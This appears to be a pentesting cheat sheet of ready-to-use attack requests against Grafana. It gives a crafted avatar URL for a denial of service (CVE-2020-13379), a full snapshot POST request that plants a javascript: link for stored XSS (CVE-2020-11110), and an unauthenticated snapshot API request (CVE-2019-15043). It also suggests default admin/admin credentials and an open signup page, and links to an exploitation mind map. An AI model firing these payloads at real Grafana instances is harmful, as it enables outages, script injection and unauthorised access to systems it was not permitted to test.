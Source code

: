 # Grafana
1. CVE-2020-13379 (Denial of Service)
```
<GRAFANA URL>/avatar/%7B%7Bprintf%20%22%25s%22%20%22this.Url%22%7D%7D
```
2. CVE-2020-11110 (Stored XSS)
```
POST /api/snapshots HTTP/1.1
Host: <GRAFANA URL>
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: {{BaseURL}}
content-type: application/json
Connection: close

{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```
3. CVE-2019-15043 (Grafana Unauthenticated API)
```
POST /api/snapshots HTTP/1.1
Host: <GRAFANA URL>
Connection: close
Content-Length: 235
Accept: */*
Accept-Language: en
Content-Type: application/json

{"dashboard":{"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}
```
4. Default Credentials
```
Try to login using admin as username and password
```
5. Signup Enabled
```
<GRAFANA URL>/signup
```

## Exploiting Grafana
https://xmind.net/m/dVAZ8k/





